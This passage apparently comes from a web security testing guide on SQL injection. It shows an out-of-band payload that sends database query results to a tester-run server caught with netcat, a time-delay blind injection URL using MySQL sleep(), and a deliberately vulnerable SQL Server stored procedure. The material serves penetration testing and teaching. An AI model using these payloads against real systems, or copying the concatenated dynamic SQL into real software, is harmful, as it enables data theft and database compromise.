 In this example, the tester is concatenating the value 10 with the result of the function `UTL_HTTP.request`. This Oracle function will try to connect to `testerserver` and make an HTTP GET request containing the return from the query `SELECT user FROM DUAL`. The tester can set up a web server (e.g. Apache) or use the Netcat tool:

```bash
/home/tester/nc –nLp 80

GET /SCOTT HTTP/1.1
Host: testerserver.com
Connection: close
```

#### Time Delay Exploitation Technique

The time delay exploitation technique is very useful when the tester finds a [Blind SQL Injection](https://owasp.org/www-community/attacks/Blind_SQL_Injection) situation, in which nothing is known about the outcome of an operation. This technique consists of sending an injected query and in case the conditional is true, the tester can monitor the time taken for the server to respond. If there is a delay, the tester can assume the result of the conditional query is true. This exploitation technique can be different from DBMS to DBMS (check DBMS specific section).

Consider the following SQL query:

`SELECT * FROM products WHERE id_product=$id_product`

Consider also the request to a script that executes the query above:

`http://www.example.com/product.php?id=10`

The malicious request would be (e.g. MySql 5.x):

`http://www.example.com/product.php?id=10 AND IF(version() like ‘5%’, sleep(10), ‘false’))--`

In this example the tester is checking whether the MySql version is 5.x or not, making the server to delay the answer by 10 seconds. The tester can increase the delay time and monitor the responses. The tester also doesn’t need to wait for the response. Sometimes he can set a very high value (e.g. 100) and cancel the request after some seconds.

#### Stored Procedure Injection

When using dynamic SQL within a stored procedure, the application must properly sanitize the user input to eliminate the risk of code injection. If not sanitized, the user could enter malicious SQL that will be executed within the stored procedure.

Consider the following SQL Server Stored Procedure:

```sql
Create procedure user_login @username varchar(20), @passwd varchar(20)
As
Declare @sqlstring varchar(250)
Set @sqlstring  = ‘
Select 1 from users
Where username = ‘ + @username + ‘ and passwd = ‘ + @passwd
exec(@sqlstring)
Go
```
